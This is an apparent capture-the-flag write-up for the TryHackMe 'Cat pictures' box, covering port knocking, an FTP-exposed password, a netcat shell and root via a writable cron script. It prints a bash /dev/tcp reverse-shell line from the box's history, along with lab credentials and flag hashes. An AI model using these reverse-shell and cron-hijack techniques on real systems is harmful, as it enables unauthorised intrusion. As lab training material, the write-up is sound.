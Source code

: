 ```yaml
---
title: Test Writeup - Cat pictures
date: 2021-06-14 19:44:00 +05:30
modified: 2021-06-15 19:44:00 +05:30
tags: [writeups]
description: Writeup for THM - Cat pictures
---
```


---
### Enumeration

#### NMAP scan

```bash
PORT     STATE    SERVICE    REASON              VERSION
21/tcp   filtered ftp        port-unreach ttl 63
22/tcp   open     ssh        syn-ack ttl 63      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIDEV5ShmazmTw/1A6+19Bz9t3Aa669UOdJ6wf+mcv3vvJmh6gC8V8J58nisEufW0xnT69hRkbqrRbASQ8IrvNS8vNURpaA0cycHDntKA17ukX0HMO7AS6X8uHfIFZwTck5v6tLAyHlgBh21S+wOEqnANSms64VcSUma7fgUCKeyJd5lnDuQ9gCnvWh4VxSNoW8MdV64sOVLkyuwd0FUTiGctjTMyt0dYqIUnTkMgDLRB77faZnMq768R2x6bWWb98taMT93FKIfjTjGHV/bYsd/K+M6an6608wMbMbWz0pa0pB5Y9k4soznGUPO7mFa0n64w6ywS7wctcKngNVg3H
|   256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCs+ZcCT7Bj2uaY3QWJFO4+e3ndWR1cDquYmCNAcfOTH4L7lBiq1VbJ7Pr7XO921FXWL05bAtlvY1sqcQT6W43Y=
|   256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGq9I/445X/oJstLHIcIruYVdW4KqIFZks9fygfPkkPq
8080/tcp filtered http-proxy no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


-------

### Foothold 

- site on port 8080 :
<figure>
<img src="./Pasted%20image%2020210605101307.png" alt="pic">
</figure>
- link : http://10.10.23.106:8080/viewtopic.php?f=2&t=2
<figure>
<img src="./Pasted%20image%2020210605101424.png" alt="pic">
</figure>
- a hint for port knocking(?)
- lets try it out : https://sushant747.gitbooks.io/total-oscp-guide/content/port_knocking.html
- after port knocking twice got access to FTP
```bash
knock $IP 1111 2222 3333 4444
```
- got a `note.txt`:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```
- and connecting to it via nc on `4420` with the gn passwd we have a limited shell
<figure>
<img src="/__posts/../../../_site/test-writeup/Pasted%20image%2020210605102030.png" alt="pic">
</figure>
- since `cd` was not available got a reverse shell working
- `strings` was not there so used `cat`:

```
rebeccaPlease enter yout password: Welcome, catlover! SSH key transfer queued! touch /tmp/gibmethesshkeyAccess Deniedd
```
- using the passwd : `rebecca`
- and it works!!

----

### Privesc

- `.bash_history`:

```bash
root@7546fa2336d6:/# cat .bash_history 
exit
exit
exit
exit
exit
exit
exit
ip a
ifconfig
apt install ifconfig
ip
exit
nano /opt/clean/clean.sh 
ping 192.168.4.20
apt install ping
apt update
apt install ping
apt install iptuils-ping
apt install iputils-ping
exit
ls
cat /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
clear
cat /etc/crontab
ls -alt /
cat /post-init.sh 
cat /opt/clean/clean.sh 
bash -i >&/dev/tcp/192.168.4.20/4444 <&1
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
cat /var/log/dpkg.log 
nano /opt/clean/clean.sh 
nano /opt/clean/clean.sh 
exit
exit
exit
```
- so its probably a cron job
- put a simple bash rev shell in that as we are root and we can write to it
- got a rev shell... ROOTED!!! 

-----

### Creds

1. sardinethecat -> internal shell
2. rebecca : runme script

-----

### Flags

1. User flag => `7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9`
2. Root flag => `4a98e43d78bab283938a06f38d2ca3a3c53f0476`

----
